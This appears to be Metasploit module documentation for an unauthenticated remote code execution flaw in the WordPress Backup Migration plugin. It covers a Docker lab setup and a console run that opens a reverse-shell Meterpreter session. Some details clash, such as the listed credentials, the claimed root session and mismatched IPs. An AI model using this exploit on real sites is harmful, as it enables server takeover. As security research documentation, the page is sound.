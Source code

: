## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

### Setup 

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:
```
version: "3"
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:8000` and you'll be redirected and asked to setup the WordPress site. This includes 
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)
```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 8000
rport => 8000
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 192.168.123.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  ASmZED.php       yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8000             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_backup_migration_php_filter) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.0
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 192.168.123.1
[+] Deleted ASmZED.php
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.1:60869) at 2023-12-20 16:36:44 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 46e8870a65ae
OS          : Linux 46e8870a65ae 6.5.11-linuxkit #1 SMP PREEMPT_DYNAMIC Wed Dec  6 17:14:50 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```